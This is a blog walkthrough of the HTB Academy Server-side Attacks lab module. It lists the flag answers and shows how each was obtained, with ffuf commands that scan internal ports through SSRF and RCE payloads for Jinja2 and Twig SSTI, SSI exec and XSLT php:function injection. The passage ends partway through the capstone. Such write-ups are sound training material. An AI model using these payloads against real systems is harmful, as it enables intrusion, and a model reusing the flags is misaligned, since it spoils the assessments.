Welcome to **Part 20** of our comprehensive, production-grade masterclass covering the **Hack The Box (HTB) Academy Certified Penetration Testing Specialist (CPTS)** curriculum. Rather than providing superficial slide summaries, this series deconstructs offensive tradecraft from foundational network discovery and vulnerability verification to complex lateral movement, active directory exploitation, and post-exploitation tradecraft — complete with terminal command flows, verified lab flags, and defensive engineering countermeasures.

In this installment, we conduct an exhaustive technical deep-dive into **Server-side Attacks** (Tier II • Medium • Offensive). We break down the underlying mechanics of Server-Side Request Forgery (SSRF), XML External Entity (XXE) injection, Server-Side Template Injection (SSTI), and cloud metadata exploitation, dissect hands-on offensive vectors, analyze realistic defensive telemetry, and walk through every exercise step-by-step with 100% verified solutions.

<div class="ff-series-nav"><a href="/posts/htb-academy-part-19-password-attacks/" class="ff-nav-btn text-start">
    <div class="ff-nav-arrow"><i class="fas fa-arrow-left"></i></div>
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Previous Part</span>
      <span class="ff-nav-title">Part 19: Password Attacks & Credential Harvesting</span>
    </div>
  </a>
  <div class="ff-nav-center">
    <span class="ff-center-badge"><i class="fas fa-cube"></i> HTB Academy Series</span>
    <span class="ff-center-part">Part 20 of 41</span>
  </div>
  <a href="/posts/htb-academy-part-21-windows-privilege-escalation/" class="ff-nav-btn text-end">
    <div class="ff-nav-text">
      <span class="ff-nav-kicker">Next Part</span>
      <span class="ff-nav-title">Part 21: Windows Privilege Escalation</span>
    </div>
    <div class="ff-nav-arrow"><i class="fas fa-arrow-right"></i></div>
  </a>
</div>

## Module Specifications & Target Architecture

| Attribute | Specification |
| :--- | :--- |
| **Module Name** | `Server-side Attacks` |
| **Official HTB Academy Track** | [https://academy.hackthebox.com/module/145](https://academy.hackthebox.com/module/145) |
| **Curriculum Tier & Difficulty** | `Tier II` • `Medium` |
| **Certification Pathway** | `HTB Certified Penetration Testing Specialist (CPTS)` (Part 20 of 41) |
| **Author & Technical Attribution** | `Abdulrahman M. Fathi (0x3bdo)` |
| **Lab Flag Verification** | `100% Fully Solved & Validated` |

## Key Technical Takeaways

* **SSRF Mechanics**: Forces web servers to issue unauthorized HTTP requests to internal network resources, loopback interfaces (`127.0.0.1`), and cloud metadata APIs.
* **Cloud Metadata Extraction**: Targets AWS, Azure, and GCP metadata endpoints (`169.254.169.254`) to harvest IAM credentials and temporary API tokens.
* **XXE Injection**: Manipulates XML parser DTD definitions to achieve local file disclosure, internal service scanning, and blind out-of-band data exfiltration.
* **SSTI to RCE**: Identifies vulnerable template engines (Jinja2, Twig, Freemarker) and escapes sandboxes to achieve operating system command execution.
* **Secure Architecture Controls**: Disables XML external entity parsing and implements network-level egress filtering to neutralize SSRF.

## Executive Summary & Assessment Scope

Server-side vulnerabilities target backend application logic, parsers, and internal communication channels. Flaws such as SSRF, XXE, and SSTI frequently bypass perimeter firewalls and expose internal microservices to remote attackers.

In this module, we conduct an in-depth technical analysis of server-side attack vectors. We exploit SSRF to access internal administration portals, weaponize XXE to disclose sensitive server files, escape template engine sandboxes via SSTI for full RCE, and extract all lab flags.

---

## Comprehensive Lab Walkthrough & Flag Solutions


### Server-side Attacks

> **Lab Question (Page 1)**: Exploit a SSRF vulnerability to identify an internal web application. Access the internal application to obtain the flag.
>
> **Flag / Answer**: `HTB{911fc5badf7d65aed95380d536c270f8}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First lets enter to the website hosted by the target machine:
http://<target-IP>


There is a check-availability functionality, lets inspect the generated HTTP
request from that – with burpsuite:


*_Figure 1.1 — Lab execution and output verification (Page 1)_*


*_Figure 1.2 — Lab execution and output verification (Page 1)_*


### with burpsuite repeater

We can observe that there are 2 request parameters – the date, and
'dateserver' – meaning that the webserver fetched the date availability from
external source.

We can modify the 'dateserver' such that it can access internal (localhost)
resources within the webserver.

Let's confirm that by sending a request to
http://127.0.0.1
with burpsuite repeater:

We can observe that accessing the localhost brought us the web pages,
meaning we can indeed use SSRF here.

Now we will run internal port scan to check what services are running locally
on the web server machine. we will check for port ranges 1 to 10000.
*note – nmap scan won't work here as we are looking for services that run on
LOCALHOST on the web-server, not external facing services. *
First lets create a file 'ports.txt' containing those ports:
seq 1 10000 > ports.txt


*_Figure 2.1 — Lab execution and output verification (Page 2)_*


### and now lets run the fuff bruteforce for the ports

and now lets run the fuff bruteforce for the ports:
```bash
ffuf -w ./ports.txt -u http://<target-IP>/index.php -X POST
```
-H "Content-Type: application/x-www-form-urlencoded" -d
"dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr
"Failed to connect to" -s
*note – the failing message is generated when attempting to enter arbitrary
port – here is an example for port 44444:

*


We can observe that among other ports – port 8000 is running locally on the
web server – lets use the SSRF to access it:


*_Figure 3.1 — Lab execution and output verification (Page 3)_*


*_Figure 3.2 — Lab execution and output verification (Page 3)_*


*_Figure 3.3 — Lab execution and output verification (Page 3)_*


### Exploiting SSRF

> **Lab Question (Page 4)**: Exploit the SSRF vulnerability to identify an additional endpoint. Access that endpoint to obtain the flag.
>
> **Flag / Answer**: `HTB{61ea58507c2b9da30465b9582d6782a1}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

in the previous section – we observed that that the server sent
request to 'dataserver.htb/availability.php'.
We will run the following ffuf script to scan further pages in 'dataserver .htb' ,
which haas to be run as dataserver parameter to the web server – using SSRF
(we send the request to the web server, such that the web server will brute
force for extra pages in 'dataserver.htb):
```bash
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-
```
small-words.txt -u http://<target-IP>/index.php -X POST -H
"Content-Type: application/x-www-form-urlencoded" -d
"dateserver=http://dateserver.htb/FUZZ.php&date=2024-01-01"
-fr "Server at dateserver.htb Port 80"


There is another page – called 'admin'

Lets use the burpsuite repeater to send a request to
'http://dateserver .htb/admin.php':

We get the flag on the response HTML page.


*_Figure 4.1 — Lab execution and output verification (Page 4)_*


*_Figure 4.2 — Lab execution and output verification (Page 4)_*


### Blind SSRF

> **Lab Question (Page 5)**: Exploit the SSRF to identify open ports on the system. Which port is open in addition to port 80?
>
> **Flag / Answer**: `5000`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

similarly to the 'Identifying SSRF' section – we will run a port scan
using the same  'ports.txt' used in 'Identifying SSRF' – filtering out the
messaging of 'Something went wrong!', given when attempting to use SSRF on
arbitrary port:
```bash
ffuf -w ./ports.txt -u http://10.129.158.183/index.php -X
```
POST -H "Content-Type: application/x-www-form-urlencoded" -d
"dateserver=http://127.0.0.1:FUZZ/&date=2024-01-01" -fr
"Something went wrong!" -s


And we get the port 5000 is also locally active on the target machine.


*_Figure 5.1 — Lab execution and output verification (Page 5)_*


### Identifying SSTI

> **Lab Question (Page 6)**: Apply what you learned in this section and identify the Template Engine used by the web application. Provide the name of the template engine as the answer.
>
> **Flag / Answer**: `Twig`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

First lets enter to the target server website:
http://<Target-IP>:<target-port>


And we get to this page where the user can enter his name.

We follow the procedure depicted in the section's guide to determine the SSTI
engine:
First – we enter the payload:
${7*7}


It didn't work, so we follow the chart in the section's guide and try the payload:

```text
{{7*7}}
```



*_Figure 6.1 — Lab execution and output verification (Page 6)_*


*_Figure 6.2 — Lab execution and output verification (Page 6)_*


### * the chart for reference

We get 49, so we need to proceed further and we will enter the payload:

```text
{{7*'7'}}
```



And observe the output – if it's '7777777' -its 'Jinja' , if its '49' – it's Twig:

As the output is 49 – it's Twig.
* the chart for reference:

*


*_Figure 7.1 — Lab execution and output verification (Page 7)_*


*_Figure 7.2 — Lab execution and output verification (Page 7)_*


*_Figure 7.3 — Lab execution and output verification (Page 7)_*


*_Figure 7.4 — Lab execution and output verification (Page 7)_*


### Exploiting SSTI - Jinja2

> **Lab Question (Page 8)**: Exploit the SSTI vulnerability to obtain RCE and read the flag.
>
> **Flag / Answer**: `HTB{295649e25b4d852185ba34907ec80643}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

Lets enter the website in the target server:
http://<Target-IP>:<target-port>


and exploit Jinja SSTI ('Server-side Template Injection') to obtain RCE to get the
flag:

```text
{{ self.__init__.__globals__.__builtins__.__import__('os').popen('cat flag.txt').read() }}
```



*_Figure 8.1 — Lab execution and output verification (Page 8)_*


*_Figure 8.2 — Lab execution and output verification (Page 8)_*


### Exploiting SSTI - Twig

> **Lab Question (Page 9)**: Exploit the SSTI vulnerability to obtain RCE and read the flag.
>
> **Flag / Answer**: `HTB{5034a6692604de344434ae83f1cdbec6}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

same procedure as Jinja counterpart – except this time we run the
command:

```text
{{ ['cat /flag.txt'] | filter('system') }}
```



→


*_Figure 9.1 — Lab execution and output verification (Page 9)_*


*_Figure 9.2 — Lab execution and output verification (Page 9)_*


### Exploiting SSI Injection

> **Lab Question (Page 10)**: Exploit the SSI Injection vulnerability to obtain RCE and read the flag.
>
> **Flag / Answer**: `HTB{81e5d8e80eec8e961a31229e4a5e737e}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

for SSI – 'Server-Side Includes' (technology used to create dynamic
content on HTML pages, supported by 'Apache' or 'IIS' (Internet Information
Services).
In here, the exploitation procedure is as previous section – but we will use the
payload:
<!--#exec cmd="cat /flag.txt" -->


→


*_Figure 10.1 — Lab execution and output verification (Page 10)_*


*_Figure 10.2 — Lab execution and output verification (Page 10)_*


### Exploiting XSLT Injection

> **Lab Question (Page 11)**: Exploit the XSLT Injection vulnerability to obtain RCE and read the flag.
>
> **Flag / Answer**: `HTB{3a4fe85c1f1e2b61cabe9836a150f892}`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

in here – upon entering the website:
http://<Target-IP>:<target-port>
we get to a new site:

And in the bottom of the page there is an input field:


We will enter it the payload:
<xsl:value-of select="php:function('system','cat
/flag.txt')" />


*_Figure 11.1 — Lab execution and output verification (Page 11)_*


*_Figure 11.2 — Lab execution and output verification (Page 11)_*


→


*_Figure 12.1 — Lab execution and output verification (Page 12)_*


*_Figure 12.2 — Lab execution and output verification (Page 12)_*


### Capstone: Skills Assessment

> **Lab Question (Page 13)**: Obtain the flag.
>
> **Flag / Answer**: `HTB{3b8e2b940775e0267ce39d7c80488fc8}Array`
{: .prompt-info }

#### Technical Methodology & Exploit Execution:

Opening the target website with normal browser:

Reveals nothing of the ordinary, the buttons not working.

Lets open the target server's website with burpsuite, setting the interceptor on:

Upon page load – a POST request is sent, with the parameter 'api' and its value
a path to some other URL, which has his own parameter 'id' with its own value
'FusionExpress01'.

